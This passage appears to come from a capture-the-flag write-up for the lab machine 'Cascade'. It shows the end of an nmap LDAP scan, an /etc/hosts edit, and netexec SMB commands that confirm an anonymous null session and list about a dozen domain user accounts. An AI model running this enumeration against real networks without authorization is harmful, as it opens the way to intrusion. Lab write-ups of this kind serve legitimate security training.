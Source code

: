 ```
|       serverName: CN=CASC-DC1,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=cascade,DC=local
|       supportedCapabilities: 1.2.840.113556.1.4.800
|       supportedCapabilities: 1.2.840.113556.1.4.1670
|       supportedCapabilities: 1.2.840.113556.1.4.1791
|       supportedCapabilities: 1.2.840.113556.1.4.1935
|       supportedCapabilities: 1.2.840.113556.1.4.2080
|       isSynchronized: TRUE
|       isGlobalCatalogReady: TRUE
|       domainFunctionality: 4
|       forestFunctionality: 4
|_      domainControllerFunctionality: 4
Service Info: Host: CASC-DC1; OS: Windows 2008 R2

Nmap done: 1 IP address (1 host up) scanned in 1.20 seconds
```

`echo -e '10.10.10.182\tCASC-DC1.cascade.local CASC-DC1 cascade.local' | sudo tee -a /etc/hosts`:
```
10.10.10.182    CASC-DC1.cascade.local CASC-DC1 cascade.local
```

`netexec smb 10.10.10.182`:
```
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)📌
```

`netexec smb 10.10.10.182 -u '' -p ''`:
```
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\:🔑
```

`netexec smb 10.10.10.182 -u '' -p '' --users`:
```
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\: 
SMB         10.10.10.182    445    CASC-DC1         -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.10.10.182    445    CASC-DC1         CascGuest                     <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.10.10.182    445    CASC-DC1         arksvc👤                       2020-01-09 16:18:20 0        
SMB         10.10.10.182    445    CASC-DC1         s.smith👤                      2020-01-28 19:58:05 0        
SMB         10.10.10.182    445    CASC-DC1         r.thompson👤                   2020-01-09 19:31:26 0        
SMB         10.10.10.182    445    CASC-DC1         util                          2020-01-13 02:07:11 0        
SMB         10.10.10.182    445    CASC-DC1         j.wakefield                   2020-01-09 20:34:44 0        
SMB         10.10.10.182    445    CASC-DC1         s.hickson                     2020-01-13 01:24:27 0        
SMB         10.10.10.182    445    CASC-DC1         j.goodhand                    2020-01-13 01:40:26 0        
SMB         10.10.10.182    445    CASC-DC1         a.turnbull                    2020-01-13 01:43:13 0        
SMB         10.10.10.182    445    CASC-DC1         e.crowe                       2020-01-13 03:45:02 0        
SMB         10.10.10.182    445    CASC-DC1         b.hanson                      2020-01-13 16:35:39 0        
SMB         10.10.10.182    445    CASC-DC1         d.burman                      2020-01-13 16:36:12 0        
```